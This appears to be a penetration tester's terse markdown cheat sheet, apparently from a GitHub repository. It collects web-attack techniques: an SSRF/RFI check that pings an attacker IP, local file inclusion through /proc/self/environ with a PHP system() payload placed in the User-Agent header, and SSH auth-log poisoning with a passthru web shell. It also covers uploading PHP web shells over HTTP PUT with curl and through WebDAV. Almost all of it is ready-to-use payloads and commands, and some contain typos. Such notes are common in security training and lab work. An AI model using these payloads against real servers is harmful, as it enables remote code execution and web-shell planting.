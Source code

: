 ### check for ssrf or RFI 

```
kali
sudo tcpdump icmp -i tun0

Webserver
python3 <webserver-url> -c "ping -c4 <attacker-ip>"
``` 

### LFI
```
file=../../../../../proc/self/environ

change user-agent: <?php system[$_GET['cmd']); ?>

<url>/console?file=../../../../../proc/self/environ?cmd=id
```
```
/home/user/.ssh/id_rsa
/var/log/auth.log
try ssh poisinong
nc -nv <ip> 22
omgthissofun/<?php passthru($_GET['cmd']); ?>          # this will refeclt in /var/log/auth.log
```
### PDF to text 
```
pdftotext *.pdf
```

### PUT 
```
 curl -X PUT -d '<?php system($_GET["c"]);?>' http://192.168.2.99/shell.ph
```

### Webdav
```
cadaver http://192.168.1.103/dav/
 put /tmp/shell.php
```
